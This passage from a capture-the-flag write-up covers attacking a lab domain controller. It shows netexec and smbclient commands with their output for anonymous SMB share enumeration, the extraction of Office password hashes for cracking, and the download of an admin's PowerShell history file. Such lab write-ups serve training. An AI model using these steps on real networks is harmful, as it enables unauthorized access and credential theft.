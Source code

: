 ```
4   204.26 ms 10.10.62.141

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 18 18:03:05 2024 -- 1 IP address (1 host up) scanned in 749.00 seconds
```
Even if we were not told that our target was a domain controller (per the room description), it would quickly become apparent with the discovery of DC-specific ports and services like kerberos on port 88.

After identifying open services, I always look for quick wins next. I Noticed SMB anonymous access was allowed and we have read permission on several shares. 

```
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.10.62.141 -u 'Anonymous' -p '' --shares
SMB         10.10.62.141    445    LAB-DC           [*] Windows 10 / Server 2019 Build 17763 x64 (name:LAB-DC) (domain:LAB.ENTERPRISE.THM) (signing:True) (SMBv1:False)
SMB         10.10.62.141    445    LAB-DC           [+] LAB.ENTERPRISE.THM\Anonymous: 
SMB         10.10.62.141    445    LAB-DC           [*] Enumerated shares
SMB         10.10.62.141    445    LAB-DC           Share           Permissions     Remark
SMB         10.10.62.141    445    LAB-DC           -----           -----------     ------
SMB         10.10.62.141    445    LAB-DC           ADMIN$                          Remote Admin
SMB         10.10.62.141    445    LAB-DC           C$                              Default share
SMB         10.10.62.141    445    LAB-DC           Docs            READ            
SMB         10.10.62.141    445    LAB-DC           IPC$            READ            Remote IPC
SMB         10.10.62.141    445    LAB-DC           NETLOGON                        Logon server share 
SMB         10.10.62.141    445    LAB-DC           SYSVOL                          Logon server share 
SMB         10.10.62.141    445    LAB-DC           Users           READ            Users Share. Do Not Touch!
```

```Docs``` and ```Users``` in particular appeared worth digging further into. I took a look at ```Docs``` first.

```
┌──(kali㉿kali)-[/tmp]
└─$ smbclient //10.10.62.141/Docs -U Anonymous -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 15 02:47:35 2021
  ..                                  D        0  Mon Mar 15 02:47:35 2021
  RSA-Secured-Credentials.xlsx        A    15360  Mon Mar 15 02:46:54 2021
  RSA-Secured-Document-PII.docx       A    18432  Mon Mar 15 02:45:24 2021

                15587583 blocks of size 4096. 9927627 blocks available
smb: \>
```

There are two files, ```RSA-Secured-Credentials.xlsx``` and ```RSA-Secured-Document-PII.docx```. These could be huge findings that allow us to breach the domain controller. I transferred the files to my attacker machine. The files were password protected, so I extracted the password hashes with ```office2john``` and started cracking them while I continued enumerating the machine (spoiler alert: I couldn't crack any of the hashes). 

I took a look at the Users share next. After some digging, I came across a PowerShell history file for LAB_ADMIN in ```\LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\```.

```
smb: \LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\> get Consolehost_hisory.txt 
getting file \LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\Consolehost_hisory.txt of size 424 as Consolehost_hisory.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```
```